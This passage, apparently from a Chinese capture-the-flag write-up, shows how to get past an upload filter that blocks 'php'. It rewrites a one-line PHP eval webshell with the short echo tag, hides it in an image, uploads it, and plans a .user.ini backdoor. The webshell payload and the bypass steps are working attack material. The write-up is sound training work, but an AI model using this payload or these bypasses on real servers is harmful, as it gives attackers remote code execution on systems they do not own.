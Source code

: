 猜测是内容里面的php代码片段里面出现的php被过滤了，所以我们现在需要更改我们的一句话来绕过。就是一句话木马的变型形式，改为\<?=  ?>这种。

```php
<?=
@eval($_POST['a']);
?>

```

然后重新生成图片马

<figure><img src="../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

然后上传发现可以上传成功

<figure><img src="../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

然后我们将需要上传的这个包抓下来，进行修改，然后我直接将抓到的包进行修改后缀名的时候发现，也失败了，所以这里还是要像上一步一样，进行.user.ini留一个后门。

<figure><img src="../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

